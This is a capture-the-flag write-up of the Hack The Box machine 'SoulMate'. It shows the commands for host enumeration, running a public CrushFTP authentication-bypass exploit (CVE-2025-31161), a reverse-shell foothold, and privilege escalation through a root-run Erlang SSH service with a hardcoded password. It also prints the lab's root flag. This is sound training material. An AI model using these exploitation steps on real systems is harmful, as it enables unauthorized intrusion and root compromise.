 # SoulMate - Hack The Box Write-up

**Author:** nukitaro
**Date:** October 18, 2025
**Machine:** SoulMate (Linux, Easy)

---

## Synopsis

SoulMate is an "Easy" difficulty Linux machine that provides a realistic path from initial web enumeration to full system compromise. The initial foothold is gained by discovering a hidden virtual host running a vulnerable version of CrushFTP. By leveraging a public exploit for an authentication bypass (CVE-2025-31161), we create a new administrative user. Privilege escalation involves discovering a misconfigured, custom Erlang SSH service running as root with hardcoded credentials, allowing us to execute commands and capture the root flag.

---

#### 1. Initial Reconnaissance

The engagement began with a standard Nmap scan to identify open ports and running services.

```bash
nmap -A -Pn 10.10.11.86
The scan returned two open ports:

Port 22: OpenSSH 8.9p1

Port 80: Nginx 1.18.0
```
The most significant finding was the HTTP title script result: Did not follow redirect to http://soulmate.htb/. This indicates the web server is configured with virtual hosting and requires a specific hostname.

To access the site, I added the following entry to my /etc/hosts file:

```Bash

echo "10.10.11.86 soulmate.htb" | sudo tee -a /etc/hosts
```
#### 2. VHost Discovery & Enumeration
With access to the main site, I proceeded to enumerate for other potential virtual hosts on the same server using gobuster.

```Bash

gobuster vhost -u [http://soulmate.htb/](http://soulmate.htb/) -w /usr/share/wordlists/dnsmap.txt --append-domain
```
This scan uncovered a new subdomain: Found: ftp.soulmate.htb (Status: 302) [--> /WebInterface/login.html]

I updated my /etc/hosts file to include this new host:

```Bash

sudo sed -i 's/soulmate.htb/soulmate.htb ftp.soulmate.htb/' /etc/hosts
```
#### 3. Foothold: Abusing CrushFTP (CVE-2025-31161)
Navigating to http://ftp.soulmate.htb revealed a login panel for CrushFTP. A quick whatweb scan and inspection of the page's source code (.js files) confirmed the version was 11.x.

Researching this version led to CVE-2025-31161, a critical authentication bypass vulnerability that allows an attacker to create a new user with administrative privileges without authentication.

The Path to a Working Exploit
Initial manual attempts to exploit the vulnerability by sending GET requests with curl to list users (command=getUserList) failed, resulting in 502 Bad Gateway errors. This indicated that while the request was reaching the backend, it was incorrect.

The breakthrough came from finding a public proof-of-concept script on GitHub that automated the full exploit chain:

Repository: https://github.com/Immersive-Labs-Sec/CVE-2025-31161

This script worked because it correctly identified that:

The vulnerability required a POST request, not a GET request.

The target command was setUserItem (a write action), not getUserList (a read action).

The request required a complex XML payload to define the new user's properties.

Creating the Admin User
Using the downloaded script, I created a new administrative user named nukitaro.

```Bash

python3 cve-2025-31161.py \
--target_host ftp.soulmate.htb \
--port 80 \
--target_user admin \
--new_user nukitaro \
--password Password123
```
After the script confirmed user creation, I logged into the CrushFTP panel at http://ftp.soulmate.htb/ with nukitaro:Password123, gaining full administrative control and establishing my initial foothold.


#### 4. User Flag
With administrative access to the CrushFTP User Manager, I was able to view and modify existing users. I changed the password for the user ben and then used the su command from my reverse shell, in the scriopt *nomralpage.php*, just uploaded it and accessed it and set ncat to listen to port 4444.

#### 5. Privilege Escalation to Root
After gaining a shell as www-data and switching to the ben user, the final step was to find a path to root. Running linpeas.sh revealed a custom, high-privilege service.

The Vulnerability: Misconfigured Erlang Service
The linpeas output showed a process running as root that was started by an Erlang script: /usr/local/lib/erlang_login/start.escript

Reading this script revealed several critical details:

It was running a custom SSH server on port 2222.

The service was only accessible from localhost (127.0.0.1).

It contained a hardcoded password for the user ben: HouseH0ldings998.

Crucially, the service was started by root and did not drop privileges after a user logged in.

This meant that anyone who authenticated to this service would inherit the permissions of the root user.

Exploitation: Inheriting Root via Erlang Shell
The final exploitation involved two key steps:

1. Upgrading the Shell: My initial reverse shell was not a full TTY, which prevented the ssh password prompt from working correctly. I upgraded to a fully interactive shell using a standard Python one-liner:

```Bash

python3 -c 'import pty; pty.spawn("/bin/bash")'

# Followed by Ctrl+Z and 'stty raw -echo; fg'
```
2. Connecting and Executing as Root: With a stable shell, I connected to the local Erlang SSH service as the ben user.

```Bash
ssh -p 2222 ben@localhost
Password: HouseH0ldings998
```

This dropped me into an Erlang shell, not a bash shell. Because the service was running as root, this shell had full root privileges. I used Erlang's built-in os module to execute system commands directly.


```Bash
Eshell V15.2.5 (press Ctrl+G to abort, type help(). for help)
(ssh_runner@soulmate)1> os:cmd('cat /root/root.txt').
"37d7636ed9b704ecb19d8d29173dbac4\n"
(ssh_runner@soulmate)2>
```

This command executed cat /root/root.txt as the root user, revealing the final flag.

### Conclusion
The SoulMate machine was a well-rounded challenge that tested multiple skills. The path to root required careful web enumeration, identification of a critical CVE, and a deep dive into system processes to find a misconfigured service that provided the final privilege escalation vector.